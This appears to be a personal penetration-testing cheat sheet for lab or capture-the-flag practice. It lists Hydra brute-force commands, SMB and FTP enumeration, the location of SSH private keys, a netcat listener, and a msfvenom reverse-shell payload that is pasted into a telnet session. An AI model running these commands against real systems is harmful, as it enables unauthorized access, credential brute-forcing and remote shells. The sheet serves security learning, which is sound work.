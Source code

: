 # Cheatsheet

### Common 
* ```wget http://127.0.0.1:8000/file```
* ```python3 -m http.server```
* ```systemctl stop myservice```
* [-h / -help / --help] or man
* https://www.exploit-db.com/exploits/20745
* 
## Useful location  
  ### .ssh Key 
   * Private key ssh ```/home/user-name/.ssh```
   * This file is the private key ```id_rsa```
   * change the file permission ``` chmod 600 ```

  ### Nmap


# Fast Tool 
## Netcat
* nc -lvp [listening port], `nc -lvp 4444`

## Hydra 
* used to brute force Telnet, RDP, SSH, FTP, HTTP, HTTPS, SMB
* hydra -t 4 -l username -P /usr/share/wordlists/rockyou.txt -vV 10.10.10.6 ftp



# Services  
## SMB
### Enumerating SMB
* enum4linux [options] ip
* use option  ```-a``` all of the above (full basic enumeration)

### SMB Exploit
* smbclient //[IP]/[SHARE]
* smbclient //10.10.10.2/sharefilename -U username -p 445

## Telnet
### Enumerating Telnet
* nmap
### Exploiting
* telnet [ip] [port]

## FTP 
### channels 
* a command (sometimes called the control) channel
* a data channel.
### Enumerating FTP
* nmap

### Exploiting

* "ftp [IP]" into the console, and entering "anonymous", and no password when prompted.


# shells 
## Simple Shell msfvenom 


```
If using your own machine with the OpenVPN connection, use:
sudo tcpdump ip proto \\icmp -i tun0
If using the AttackBox, use:
sudo tcpdump ip proto \\icmp -i ens5


"msfvenom -p cmd/unix/reverse_netcat lhost=[local tun0 ip] lport=4444 R"
-p = payload
lhost = our local host IP address (this is your machine's IP address)
lport = the port to listen on (this is the port on your machine)
R = export the payload in raw format
copy and paste the value on telnet session 
```


# other Important 
## Start a tcpdump listener

